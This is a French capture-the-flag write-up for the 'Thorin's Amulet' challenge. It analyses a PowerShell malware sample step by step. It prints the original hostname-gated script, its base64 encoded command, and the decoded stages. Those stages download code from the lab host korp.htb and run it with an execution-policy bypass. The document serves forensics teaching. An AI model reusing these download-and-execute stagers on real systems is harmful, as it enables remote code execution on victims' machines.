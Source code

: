 # Thorin’s Amulet


Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

En démarrant le challenge, on obtient un script powershell `artifact.ps1` : 
```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```
D'abord le script vérifie si il s'éxécute bien sur `WORKSTATION-DM-0043` puis si c'est bien le cas, il éxécute :
```powershell
"SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
``` 
qui donne : 
```powershell
 ( New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```
Une fois décodé depuis de la base64. 
Depuis `http://korp.htb/update` il va télécharger ceci : 
```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```
Ce script va lui aussi GET un fichier à `http://korp.htb/a541a` avec `5337d322906ff18afedc1edc191d325d` comme clé puis l’éxécuté en bypassant certaines restrictions powershell grâce à `-exec Bypass`.

On récupère donc ce fichier pour voir ce qu’il y a de beau à l’intérieur, peut-être du code malveillant, ou alors, un flag ? 

![image-1](https://github.com/user-attachments/assets/3d72173f-3dcb-4a57-9247-5746e5528a2d)

![alt text](image-2.png)

Bon du coup, on rend ça lisible et une petite surprise nous attends : 

![alt text](image-3.png)

